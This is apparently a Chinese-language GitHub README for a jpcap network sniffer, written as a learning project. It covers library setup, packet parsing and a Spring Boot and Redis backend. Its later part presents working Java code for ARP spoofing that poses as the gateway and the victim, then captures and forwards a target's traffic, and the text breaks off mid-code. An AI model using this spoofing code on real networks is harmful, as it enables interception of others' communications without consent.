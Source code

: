 # network-sniffer
基于jpcap的网络嗅探器。

对于Java开发者来说，java.net包里面提供的类和接口提供是TCP UDP两种网络协议的支持，也就是说基于JDK的网络编程都是在**运输层**之上的。如果要深入到网络层，就需要libpcap库的支持（在window系统中是winpcap）。由于libpcap是由C/C++实现的，所以需要一个中间件jpcap来实现转换，我们就可以直接在Java环境中调用jpcap提供的API实现上述需求。

## 1. 环境配置

本人的实验环境:

* 操作系统：Mac OS 10.15.7
* Java版本：Oracle JDK 1.8

首先到tcpdump的[官网](http://www.tcpdump.org)上下载libpcap的latest release。

<img src="https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210315194948294.png" alt="image-20210315194948294" style="zoom: 67%;" />

解压后cd到解压目录中，分别执行以下命令：

```shell
./configure
make
make install
```

然后到`usr/local/lib`目录下就能找到名为`libpcap.dylib`文件，然后执行以下命令(MAC环境)将其绑定到Java的动态链接库：

```shell
export JAVA_LIBRARY_PATH=usr/local/lib
```

libpcap库安装结束。接下来安装jpcap，首先到https://github.com/jpcap/jpcap 下载源码包，再按以下指示完成步骤：（摘录自https://sites.google.com/site/sipinspectorsite/download/jpcap）

1. Both Java and libpcap are preinstalled on Mac OS X. 
   If any of them is missing you should be able to install them from the Mac OS X install DVD. 
2. Download and install [Xcode](http://developer.apple.com/tools/xcode/). 
   The default installation of Xcode should provide you with the toolchain required for compiling Jpcap.
3. Download and extract Jpcap source build. 
4. Go to ***'*****[Jpcap extracted directory]/src/c**' directory. 
5. Run '**make**'.
6. Copy '**libjpcap.jnilib**' to **'***/Library/Java/Extensions/*' directory. 
7. Copy *'**[Jpcap extracted directory]/******lib/\*jpcap.jar**' to '*/Library/Java/Extensions/*'
   Or, place '*jpcap.jar*' to any directory and include it to your CLASSPATH.

如果执行第5步失败了，也可以直接将本项目`resources`目录下的`libjpcap.jnilib`文件（windows下是dll文件）复制到`/Library/Java/Extensions/`目录下，再将`jpcap.jar`包复制到`jre/lib/ext`目录下让扩展类加载器加载，或者放到自己设定的类路径下由系统类加载器加载。

测试环境：

```java
NetworkInterface[] devices = JpcapCaptor.getDeviceList();
String[] names = new String[devices.length];
for (int i = 0; i < names.length; i++) {
	names[i] = (devices[i].description == null ? devices[i].name : devices[i].description);
	System.out.println(names[i]);
}
```

结果：打印出了所有网卡的名称：

```shell
en0
p2p0
awdl0
llw0
utun0
utun1
utun2
utun3
lo0
bridge0
en1
en2
gif0
stf0
XHC0
XHC20
```

至此前期环境搭建完成。



## 2. 熟悉API

由于官方API比较难找，因此我从网络上收集了一些API介绍放到此处。JPCAP中比较重要的4个类：

### NetworkInterface

该类的每一个实例代表一个网络设备，一般就是网卡。这个类只有一些数据成员，除了继承自java.lang.Object的基本方法以外，没有定义其它方法。

数据成员：

| 返回值类型                      | 名称                 | 描述                                                         |
| ------------------------------- | -------------------- | ------------------------------------------------------------ |
| java.lang.String                | datalink_description | 数据链路层的描述。描述所在的局域网是什么网。例如，以太网（Ethernet）、无线LAN网（wireless LAN）、令牌环网(token ring)等等。 |
| java.lang.String                | datalink_name        | 该网络设备所对应数据链路层的名称。具体来说，例如Ethernet10M、100M、1000M等等。 |
| java.lang.String                | description          | 网卡是XXXX牌子XXXX型号之类的描述。                           |
| boolean                         | Loopback             | 标志这个设备是否loopback设备。                               |
| byte[]                          | mac_address          | 网卡的MAC地址，6个字节。                                     |
| java.lang.String                | Name                 | 这个设备的名称。例如我的网卡名称：\Device\NPF_{3CE5FDA5-E15D-4F87-B217-255BCB351CD5} |
| jpcap.NetworkInterfaceAddress[] | addresses            | 设备IP地址（暂且这么理解）                                   |

### JpcapCaptor

该类提供了一系列静态方法来实现一些基本的功能。该类一个实例代表建立了一个与指定设备的链接，可以通过该类的实例来控制设备，例如设定网卡模式、设定过滤关键字等等。

数据成员：

| 返回值类型 | 名称             | 描述             |
| ---------- | ---------------- | ---------------- |
| int        | dropped_packets  | 抛弃的包的数目。 |
| int        | received_packets | 收到的包的数目。 |

成员方法：

| 返回值类型               | 方法名                                                       | 描述                                                         |
| ------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| staticNetworkInterface[] | getDeviceList()                                              | 返回一个网络设备列表。                                       |
| staticJpcapCaptor        | openDevice(NetworkInterface interface, intsnaplen, booleanpromisc, intto_ms) | 创建一个与指定设备的连接并返回该连接。注意，以上两个方法都是静态方法。<br/><br/>Interface：要打开连接的设备的实例；<br/><br/>Snaplen：这个是比较容易搞混的一个参数。其实这个参数不是限制只能捕捉多少数据包，而是限制每一次收到一个数据包，只提取该数据包中前多少字节；<br/><br/>Promisc：设置是否混杂模式。处于混杂模式将接收所有数据包，若之后又调用了包过滤函数setFilter()将不起任何作用；<br/><br/>To_ms：这个参数主要用于processPacket()方法，指定超时的时间； |
| void                     | Close()                                                      | 关闭调用该方法的设备的连接，相对于openDivece()打开连接。     |
| JpcapSender              | getJpcapSenderInstance()                                     | 该返回一个JpcapSender实例，JpcapSender类是专门用于控制设备的发送数据包的功能的类。 |
| Packet                   | getPacket()                                                  | 捕捉并返回一个数据包。这是JpcapCaptor实例中四种捕捉包的方法之一。 |
| int                      | loopPacket(intcount, PacketReceiver handler)                 | 捕捉指定数目的数据包，并交由实现了PacketReceiver接口的类的实例处理，并返回捕捉到的数据包数目。如果count参数设为－1，那么无限循环地捕捉数据。<br/><br/>这个方法不受超时的影响。还记得openDivice()中的to_ms参数么？那个参数对这个方法没有影响，如果没有捕捉到指定数目数据包，那么这个方法将一直阻塞等待。<br/>PacketReceiver中只有一个抽象方法void receive(Packet p)。 |
| int                      | processPacket(intcount, PacketReceiver handler)              | 跟loopPacket()功能一样，唯一的区别是这个方法受超时的影响，超过指定时间自动返回捕捉到数据包的数目。 |
| int                      | dispatchPacket(intcount, PacketReceiverhandler)              | 跟processPacket()功能一样，区别是这个方法可以处于“non-blocking”模式工作，在这种模式下dispatchPacket()可能立即返回，即使没有捕捉到任何数据包。 |
| void                     | setFilter(java.lang.Stringcondition, booleanoptimize)        | condition：设定要提取的包的关键字。<br/><br/>Optimize：这个参数在说明文档以及源代码中都没有说明，只是说这个参数如果为真，那么过滤器将处于优化模式。 |
| void                     | setNonBlockingMode(booleannonblocking)                       | 如果值为“true”，那么设定为“non-blocking”模式。               |
| void                     | breakLoop()                                                  | 当调用processPacket()和loopPacket()后，再调用这个方法可以强制让processPacket()和loopPacket()停止。 |



### JpcapSender

该类专门用于控制数据包的发送。

成员方法：

| 返回值类型        | 方法名                    | 描述                                                         |
| ----------------- | ------------------------- | ------------------------------------------------------------ |
| void              | close()                   | 强制关闭这个连接。                                           |
| staticJpcapSender | openRawSocket()           | 这个方法返回的JpcapSender实例发送数据包时将自动填写数据链路层头部分。 |
| void              | sendPacket(Packet packet) | JpcapSender最重要的功能，发送数据包。需要注意的是，如果调用这个方法的实例是由JpcapCaptor的getJpcapSenderInstance()得到的话，需要自己设定数据链路层的头，而如果是由上面的openRawSocket()得到的话，那么无需也不能设置，数据链路层的头部将由系统自动生成。 |



### Packet

这个是所有其它数据包类的父类。Jpcap所支持的数据包有：
ARPPacket、DatalinkPacket、EthernetPacket、ICMPPacket、IPPacket、TCPPacket、UDPPacket



## 3.抓包测试

抓一个TCP包试试，编写Java程序：

开一个线程抓包：

```java
private void startCaptureThread() {
  if (captureThread != null)
    return;

  captureThread = new Thread(new Runnable() {
    public void run() {
      while (captureThread != null) {
        if (jpcap.processPacket(1, handler) == 0 && !isLive)
          stopCaptureThread();
        Thread.yield();
      }
      jpcap.breakLoop();
    }
  });
  captureThread.setPriority(Thread.MIN_PRIORITY);//设置线程优先级
  captureThread.start();
}
//停止捕获数据包
public void stopCaptureThread() {
  captureThread = null;
}
```

测试：

```java
@Test
public void test() throws InterruptedException {
  Captor captor = new Captor();
  //        String[] devices = captor.showDevice();
  captor.chooseDevice(0);
  captor.setFilter("tcp");//设置提取关键字
  captor.capturePackets();//抓包
  while(true){
    System.out.println("开始抓包");
    Thread.sleep(1000);
    List<Packet> packets = captor.getPackets();//提取数据包
    if(!packets.isEmpty()){
      for (Packet packet : packets) {//显示数据包内容
        System.out.println(captor.showPacket(packet));
      }
      break;
    }
  }
  System.out.println("抓包结束");
}
```

抓取成功，结果：

![image-20210315211433345](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210315211433345.png)



## 4.解析数据包

在第2节中介绍到：`Packet`是所有其它数据包类的父类。因此我们针对Packet编写一个抽象类`AbstractPacket`，规范一些各类数据包统一的操作。

```java
package com.hyc.packet;

import com.hyc.metadata.Layer;
import jpcap.packet.Packet;
import java.util.List;

/**
 * @author kol Huang
 * @date 2021/3/12
 */
public abstract class AbstractPacket {

    //数据包属于OSI模型的哪一层，默认为数据链路层。
    public Layer layer = Layer.DATALINK_LAYER;
    //协议名称
    private String protocolName;
    /**
     * 抽象方法：验证数据包是否属于某个子类
     * @param packet
     * @return
     */
    public abstract boolean verify(Packet packet);

    /**
     * 抽象方法：对数据包进行解析
     * @param packet
     */
    public abstract List<String> parse(Packet packet);

    public String getProtocolName() {
        return protocolName;
    }

    public void setProtocolName(String protocolName) {
        this.protocolName = protocolName;
    }
}

```



仍旧以TCP数据包解析为例。假设我们通过setFilter()过滤，然后抓到了一个TCP数据包packet。首先从数据链路层开始分析，下图分别是802标准以及以太网的帧结构。

![image-20210316183603904](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210316183603904.png)

在jpcap中，对以太网数据包的封装是`EthernetPacket`类，主要内容有以下几项：

1. 帧类型。标识以太帧处理完成之后将被发送到哪个上层协议进行处理。
2. MAC地址。

```java
public byte[] dst_mac;
public byte[] src_mac;
public short frametype;
```

我们就按上面这三个字段解析以太网帧。首先新建一个`Ethernet`类表示以太网帧，并继承`AbstractPacket`。在其中实现verify方法和parse方法。

jpcap为我们提供了以太网帧的封装类`EthernetPacket`，因此在verify方法中，我们只需判断当前的packet是否属于`EthernetPacket`类型即可。

```java
public boolean verify(Packet p){
  return p.datalink instanceof EthernetPacket;
}
```

在封装类`EthernetPacket`中，jpcap提供了若干方法用于访问数据包内容，我们就利用这些方法编写parse方法解析以太网帧：

```java
	public List<String> parse(Packet p){
		List<String> parsedData = new ArrayList<String>();
		if(!verify(p)) return null;
		//获取jpcap封装的数据链路packet
		ethp = (EthernetPacket)p.datalink;
		parsedData.add("Frame Type: "+ethp.frametype);
		parsedData.add("Source MAC Address: "+ethp.getSourceAddress());
		parsedData.add("Destination MAC Address: "+ethp.getDestinationAddress());
		return parsedData;
	}
```

解析结果：

![image-20210316193523892](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210316193523892.png)

接下来解析IP包。创建IPv4类，继承`AbstractPacket`，同样的思路，用jpcap封装好的`IPPacket`实现IPv4数据包的verify和parse方法。

```java
public boolean verify(Packet p){
  return p instanceof IPPacket && ((IPPacket) p).version == 4;
}
```

```java
public List<String> parse(Packet packet){
		List<String> parsedData = new ArrayList<String>();

		if(!verify(packet)) return null;
		final IPPacket ipv4p = (IPPacket)packet;
		parsedData.add("Version: 4");
		parsedData.add("Priority: "+ipv4p.priority);
		parsedData.add("Throughput: "+ipv4p.t_flag);
		parsedData.add("Reliability: "+ipv4p.r_flag);
		parsedData.add("Length: "+ipv4p.length);//数据报长度，单位是字节
		parsedData.add("Identification: "+ipv4p.ident);
		parsedData.add("Don't Fragment: "+ipv4p.dont_frag);//不对数据报进行分片
		parsedData.add("More Fragment: "+ipv4p.more_frag);//除了最后一片外，其他每个组成数据报的片都要把该比特置1。 
		parsedData.add("Fragment Offset: "+ipv4p.offset);//数据报的偏移量
		parsedData.add("Time To Live: "+ipv4p.hop_limit);//TTL
		parsedData.add("Protocol: "+ipv4p.protocol);//协议字段
		parsedData.add("Source IP: "+ipv4p.src_ip.getHostAddress());
		parsedData.add("Destination IP: "+ipv4p.dst_ip.getHostAddress());
		parsedData.add("Source Host Name: "+ipv4p.src_ip.getHostName());
		parsedData.add("Destination Host Name: "+ipv4p.dst_ip.getHostName());
		return parsedData;
	}
```

IP数据报的内容众多，结构如下：

![image-20210316192859961](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210316192859961.png)

解析结果：

![image-20210316193546007](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210316193546007.png)

最后解析TCP报文段。jpcap对TCP报文段的封装类是`TCPPacket`，TCP报文段结构如下所示：

![image-20210316194225746](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210316194225746.png)

```java
public boolean verify(Packet p){
		return p instanceof TCPPacket;
	}
	
	public String getProtocolName(){
		return "TCP";
	}
	
	public List<String> parse(Packet p){
		List<String> parsedData = new ArrayList<String>();

		if(!verify(p)) return null;

		TCPPacket tcp = (TCPPacket)p;

		parsedData.add("Source Port: "+tcp.src_port);
		parsedData.add("Destination Port: "+tcp.dst_port);
		parsedData.add("Sequence Number: "+tcp.sequence);
		parsedData.add("Ack Number: "+tcp.ack_num);
		parsedData.add("URG Flag: "+tcp.urg);
		parsedData.add("ACK Flag: "+tcp.ack);
		parsedData.add("PSH Flag: "+tcp.psh);
		parsedData.add("RST Flag: "+tcp.rst);
		parsedData.add("SYN Flag: "+tcp.syn);
		parsedData.add("FIN Flag: "+tcp.fin);
		parsedData.add("Window Size: "+tcp.window);

		return parsedData;
	}
```

TCP报文段应该非常熟悉了，不再解释。解析结果如下：

![image-20210316194333948](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210316194333948.png)

至此一个TCP报文段解析完毕。

再按同样的方法编写ARP、IPv6、UDP、HTTP等常见协议，就能基本实现抓包和解析功能。



## 5. 局域网数据嗅探

大致了解了JPCAP的使用方式后，我打算参考[项目](https://github.com/hustakin/jpcap-mitm)开发基于局域网嗅探实现点对点MITM攻击的WEB项目（前后端分离），实现：

1. 局域网ARP Spoofing；
2. 嗅探指定终端的上/下行链路数据包；
3. 数据包内容分析及前端可视化。

前端我直接采用了该项目的前端模块（Angular6 + Echarts），此项目实现了前后端分离，因此我只需要编写后端模块为前端接口提供JSON数据即可，该前端模块的接口调用方式如下：

![image-20210323210343382](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210323210343382.png)





### 5.1 替换Dao

该[项目](https://github.com/hustakin/jpcap-mitm)采用MongoDB作为数据存储引擎，我将其更换成了Redis。如果我们使用默认的`Redis`配置，由于springboot只提供了`RedisTemplate<Object, Object>`和`StringRedisTemplate`两种模版，因此只支持`string`类型的序列化器。但是我们需要将对象序列化到redis中，所以需要自定义`redisTemplate`，并配置序列化器。

在Springboot 2.x中将默认的Redis客户端更换为`lettuce`，因此在配置`redis`的时候需要格外注意。`lettuce`的自定义方式与`jedis`有些不同，首先在`config`包下创建`RedisConfig`类，该类需继承`CachingConfigurerSupport`类。然后编写方法注入Bean到IOC容器中：

```java
/**
 * 实例化 RedisTemplate 对象
 *
 * @return
 */
@Bean(name = "redisTemplate")
public RedisTemplate<String, Object> redisTemplate(RedisConnectionFactory redisConnectionFactory) {
  RedisTemplate<String, Object> redisTemplate = new RedisTemplate<>();
  redisTemplate.setConnectionFactory(redisConnectionFactory);
  //配置序列化方式
  //JSON序列化配置
  Jackson2JsonRedisSerializer jackson2JsonRedisSerializer = new Jackson2JsonRedisSerializer(Object.class);
  redisTemplate.setKeySerializer(new StringRedisSerializer());
  redisTemplate.setHashKeySerializer(new StringRedisSerializer());
  redisTemplate.setHashValueSerializer(new GenericJackson2JsonRedisSerializer());
  redisTemplate.setValueSerializer(jackson2JsonRedisSerializer);//设置value的序列化器为jackson，这样能够保证对象被成功序列化
  redisTemplate.afterPropertiesSet();
  return redisTemplate;
}
```

**需要注意的是：被序列化的类需要实现`Serializable`接口。**

完成以上步骤就能直接通过IOC容器获取自定义的`redisTemplate`模版了。我们将其封装到`RedisMapper`类中，统一处理`dao`的各种操作。

```java
/**
 * @author kol Huang
 * @date 2021/3/22
 */
@Component
public class RedisMapper {

    @Resource
    @Qualifier("redisTemplate")
    private RedisTemplate<String, Object> redisTemplate;

    public void setRedisTemplate(RedisTemplate<String, Object> redisTemplate) {
        this.redisTemplate = redisTemplate;
    }

    /**
     * 普通缓存获取
     * @param key 键
     * @return 值
     */
    public Object get(KeyPrefix prefix, String key){
        String realKey = prefix.getPrefix().concat(key);
        return redisTemplate.opsForValue().get(key);
    }

    /**
     * 普通缓存放入
     * @param key 键
     * @param value 值
     * @return true成功 false失败
     */
    public boolean set(KeyPrefix prefix, String key,Object value) {
        try {
            String realKey = prefix.getPrefix().concat(key);
            redisTemplate.opsForValue().set(realKey, value);
            return true;
        } catch (Exception e) {
            e.printStackTrace();
            return false;
        }

    }

    /**
     * 普通缓存放入并设置时间
     * @param key 键
     * @param value 值
     * @param time 时间(秒) time要大于0 如果time小于等于0 将设置无限期
     * @return true成功 false 失败
     */
    public boolean set(KeyPrefix prefix, String key,Object value,long time){
        try {
            if(time > 0){
                String realKey = prefix.getPrefix().concat(key);
                redisTemplate.opsForValue().set(realKey, value, time, TimeUnit.SECONDS);
            }else{
                set(prefix, key, value);
            }
            return true;
        } catch (Exception e) {
            e.printStackTrace();
            return false;
        }
    }

    /**
     * 删除缓存
     * @param key 可以传一个值或多个
     */
    public void del(KeyPrefix prefix, String ... key){
        if(key != null && key.length > 0){
            if(key.length == 1){
                String realKey = prefix.getPrefix().concat(key[0]);
                redisTemplate.delete(realKey);
            }else{
                //加前缀
                Collection<String> keys = new ArrayList<>();
                for (String s : key) {
                    keys.add(prefix.getPrefix().concat(s));
                }
                redisTemplate.delete(keys);
            }
        }
    }

}

```

### 5.2 AttackConfig

由于ARP spoof的需求，我们需要获取到以下信息：

* 本地IP/MAC地址
* 目标IP/MAC地址
* 网关IP/MAC地址

因此我们将以上信息封装到一个配置类中，即`AttackConfig`。这些配置信息中的`本地IP/MAC地址`信息可以在web项目初始化的时候就自动从设备上获取，因此我们在`AttackService`类（位于`service`层）中编写初始化方法：

```java
@PostConstruct
public void initDefaultConfig(){
  this.initDeviceList();

  AttackConfig config = (AttackConfig) redisMapper.get(AttackKey.config, "config");
  if(config == null){
    ...

      //获取本地IP和MAC地址
      Map<String, String> addrs = NetworkUtils.getLocalAddress();
    if(addrs == null){
      addrs = NetworkUtils.getPublicAddress();
    }
    if(addrs != null){
      srcIP = addrs.get("ip");
      srcMAC = addrs.get("mac");
    }else{
      logger.error("can not acquire source IP/MAC address");
    }
    config = new AttackConfig();
    config.setDeviceName(null);
    ...
      config.setGateMac(gateMAC);
    config.setGateIP(gateIP);
    redisMapper.set(AttackKey.config, "config", config);
  }

}
```

在方法上加`@PostConstruct`注解可以让这个方法在web容器启动并初始化Servlet的时候被执行，在Spring IOC容器中是通过`CommonAnnotationBeanPostProcessor`实现的。通常我们会是在Spring框架中使用到@PostConstruct注解 该注解的方法在整个Bean初始化中的执行顺序：

`Constructor`(构造方法) -> `@Autowired`(依赖注入) -> `@PostConstruct`(注释的方法)

### 5.3 获取网卡列表

编写`AttackController`，获取网卡列表，并序列化返回给前端。

```java
/**
 * @author kol Huang
 * @date 2021/3/22
 */
@Controller
@RequestMapping("attack")
public class AttackController {

    @Autowired
    private AttackService attackService;

    @GetMapping(value = "/getDeviceList")
    @ResponseBody
    public List<NetWorkInterface> getDeviceList(){
        List<NetWorkInterface> devices = new ArrayList<>();
        NetworkInterface[] interfaces = attackService.getDevices();
        if(interfaces != null){
            for (NetworkInterface networkInterface : interfaces) {
                NetWorkInterface ni = new NetWorkInterface();
                ni.setName(networkInterface.name);
                ni.setDescription(networkInterface.description);
                ni.setDataLinkName(networkInterface.datalink_name);
                ni.setDataLinkDescription(networkInterface.datalink_description);
                devices.add(ni);
            }
        }
        return devices;
    }
}

```



启动项目，发起请求：`http://localhost:8081/attack/getDeviceList`，结果如下

![image-20210323214332832](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210323214332832.png)



### 5.4 接口对接测试

既然已经编写好了一个接口，那么我们就尝试着跟前端模块对接一下，防止项目庞大后对接问题的堆积。

修改前端模块的`attack.service.ts`文件，将`/getDeviceList`请求路径改写成我们自己的请求路径：

![image-20210324204211899](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210324204211899.png)

分别启动angular项目和springboot项目，注意：这里应当用`proxy`的方式启动前端项目，将`localhost:8081`作为代理处理请求。

![image-20210324204458217](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210324204458217.png)

结果：前端成功获取并显示了所有网卡名称。

![image-20210324204611650](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210324204611650.png)



### 5.5 攻击核心代码

此项目的核心功能就是对抓取的网络数据包进行一系列操作，如分组、拼接、解压、还原等。所以就不再描述其他细节问题，重点讲讲上述核心功能的实现。

首先，在前端页面上初次填写攻击配置信息（srcIP, dstIP, gateIP等）后，点击setup configs按钮，后端会接收到一个路径为`attack/updateConfigAndOpenDevice`的请求。随即根据表单的数据更新攻击配置信息（存入redis），然后根据配置信息选择网卡，并调用以下两个来自Jpcap包的方法打开网卡设备：

```java
public static jpcap.JpcapCaptor openDevice(jpcap.NetworkInterface intrface, int snaplen, boolean promisc, int to_ms) throws java.io.IOException
public jpcap.JpcapSender getJpcapSenderInstance()
```

然后等待前端下达指令就开始抓包。

![image-20210325192544852](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210325192544852.png)

这里遇到了一个问题，我在使用redisTemplate从redisget配置信息的时候报错，如下：

```shell
java.lang.ClassCastException: java.util.LinkedHashMap cannot be cast to com.XXX.XXX.xxClass
```

从redis反序列化出来的时候，所有的对象都变成了LinkedHashMap。

查了资料，原因是：在配置redisconfig的时候，我定义的MyObjectMapper没有配置`DefaultTyping`属性，jackson将使用简单的数据绑定具体的java类型，其中Object就会在反序列化的时候变成LinkedHashMap。如何解决呢？

解决办法就是在get之后用`ObjectMapper`来转换：

```java
public Object get(KeyPrefix prefix, String key, Class<?> clazz){
  String realKey = prefix.getPrefix().concat(key);
  ObjectMapper mapper = new ObjectMapper();
  return mapper.convertValue(redisTemplate.opsForValue().get(realKey), clazz);
}
```

但是问题应该是出在`RedisConfig`的配置中，先不处理它。

#### 5.5.1 伪装

接下来开始编写攻击代码，攻击走的请求路径是`/attack/startAttack`，所以我们在`AttackController`中编写攻击的代码：

```java
@GetMapping("/startAttack")
@ResponseBody
public ResultDTO startAttacking(){
  logger.info("start attacking");
  attackService.attack();
  return new ResultDTO(true);
}
```

去调用Service层的`attack`方法执行攻击流程。

首先是创建用于spoofing的ARP包：

1. 创建一个ARP包发送给目标主机，将自己伪装成网关；
2. 创建一个ARP包发送给网关，将自己伪装成目标主机。

```java
public synchronized void attack(){
  //当前处于攻击状态，说明已经有线程在攻击了，所以当前线程直接返回
  if(attacking)   return;
  attacking = true;

  startAttackTimeStamp = new Date();//记录当前时间
  //为了方便统计数据，我们为每次攻击都设置一个批次ID，即batchId
  //这个batchId需要是自增的，如何获取一个自增的batchId呢？
  //那就还从redis里取，但是这个batchId必须跟每次攻击的数据包对应好，否则就乱了
  //OK，那我们就在初始化Servlet的时候，就在Redis里设置一个存id的键，如果不存在，那就创建一个，具体操作见方法initBatchId
  batchId = (Integer) redisMapper.get(CommonKey.COMMON_KEY, "batch_id", Integer.class);
  //这里没考虑并发修改redis的batchId的问题，因为同一时间只有一个线程会执行攻击方法
  //因为AttackService默认是单例的，锁上之后，别的线程也没法调用attack方法，也就不会并发修改batchId
  //但是仍旧是线程不安全的，如果要实现线程安全，可以选择加分布式锁，即执行redis的set lock:batchid true ex 5 nx
  //这里就不实现了
  batchId++;

  //设置ARP包欺骗目标主机，将自己伪装成网关
  ARPPacket arpToDst = createARPPacket(srcMACBT, gateIPIA.getAddress(), dstMACBT, dstIPIA.getAddress());


  //设置ARP包欺骗网关，假装自己是目标主机，因此源IP地址需要改成攻击目标的IP地址，但是MAC地址修改成本地主机的MAC地址
  //这样就能让网关认为本地主机的MAC地址是攻击目标的MAC地址，进而将需要发到目标主机的数据包通过ARP表发到本地主机的网卡上
  ARPPacket arpToGate = createARPPacket(srcMACBT, dstIPIA.getAddress(), gateMACBT, gateIPIA.getAddress());

	...
}
```

创建ARP包的方法如下：

```java
private ARPPacket createARPPacket(byte[] sHardAddr, byte[] sProtoAddr,byte[] tHardAddr, byte[] tProtoAddr){
  ARPPacket arpPacket = new ARPPacket();
  arpPacket.hardtype = ARPPacket.HARDTYPE_ETHER;
  arpPacket.prototype = ARPPacket.PROTOTYPE_IP;
  arpPacket.operation = ARPPacket.ARP_REPLY;//设置操作类型为应答
  arpPacket.hlen = 6;//硬件地址长度
  arpPacket.plen = 4;//协议类型长度
  arpPacket.sender_hardaddr = sHardAddr;//发送端MAC地址
  arpPacket.sender_protoaddr = sProtoAddr;//发送端IP地址
  arpPacket.target_hardaddr = tHardAddr;//目标MAC地址
  arpPacket.target_protoaddr = tProtoAddr;//目标IP地址

  //定义以太网首部
  EthernetPacket ethernetPacket = new EthernetPacket();
  ethernetPacket.frametype = EthernetPacket.ETHERTYPE_ARP;//设置帧类型为ARP帧
  ethernetPacket.src_mac = sHardAddr;//源MAC地址
  ethernetPacket.dst_mac = tHardAddr;//目标MAC地址
  //添加以太网首部
  arpPacket.datalink = ethernetPacket;
  return arpPacket;
}
```



#### 5.5.2 欺骗

伪装包已经创建好了，那就开始欺骗吧。原项目中直接`new`线程发包了，我改一下，我用线程池。

```java
//使用线程池
private static final int CORE_POOL_SIZE = 5;//核心线程数
private static final int MAXIMUM_POOL_SIZE = 10;//最大线程数
private static final long KEEP_ALIVE_TIME = 1L;//空闲保活时间
private static final TimeUnit UNIT = TimeUnit.MILLISECONDS;//时间单位
private static final int QUEUE_CAPACITY = 5;//任务队列最大长度
static ThreadPoolExecutor executor = new ThreadPoolExecutor(
  CORE_POOL_SIZE,
  MAXIMUM_POOL_SIZE,
  KEEP_ALIVE_TIME,
  UNIT,
  new ArrayBlockingQueue<>(QUEUE_CAPACITY),//有界阻塞队列
  new ThreadPoolExecutor.CallerRunsPolicy()//饱和策略选择调用线程帮忙的策略
);
```

发包：

```java
//主线程调用方法，子线程发包
sendPacket(arpToDst, arpToGate);


private void sendPacket(Packet packet1, Packet packet2){
  Runnable task = new Runnable() {
    @Override
    public void run() {
      while(attacking){
        try{
          if(sender != null && attacking){
            sender.sendPacket(packet1);
          }
          if(sender != null && attacking){
            sender.sendPacket(packet2);
          }
          //控制发包的速度
          Thread.sleep(500);
        } catch (Throwable e) {
          logger.error("Unknown error occur in send thread, ", e);
        }
      }
    }
  };
  executor.execute(task);
}
```

发完包之后，就可以准备接收并转发包，因为网关和目标主机会响应这些ARP请求。

我们在配置攻击参数的时候，设置了`filterDomains`参数，即我们只抓取与这些域名相关的数据包。所以我们从网卡拿包的时候，需要进行过滤。过滤完之后，针对数据包的不同类型执行不同的转发操作：

* 如果是上行链路，转发到网关
* 如果是下行链路，转发到目标主机

同时将数据包按批次号保存到redis，以便后续分析。

```java
private void receiveAndForwardingPacket(){
  Runnable task = new Runnable() {
    @Override
    public void run() {
      while(attacking){
        try{
          //接收数据包
          Packet packet = captor.getPacket();
          if(packet != null && packet != Packet.EOF){
            //检查是否是IP包
            if(packet instanceof IPPacket){
              IPPacket ipPacket = (IPPacket) packet;
              //数据包属于filterDomain
              if(isRelatedToSpecificDomains(ipPacket.src_ip.getHostAddress())
                 || isRelatedToSpecificDomains(ipPacket.dst_ip.getHostAddress())){
                //将数据包转发到目标主机并保存到数据库

                //如果这个数据包的源IP地址是目标主机的IP地址，那么说明是上行链路的数据包
                if(ipPacket.src_ip.getHostAddress().equals(config.getDestIp())){
                  //如果这个数据包的源MAC地址是本地主机的MAC地址，说明这是我自己发送的攻击数据包，需要忽略
                  if(packet.datalink instanceof EthernetPacket){
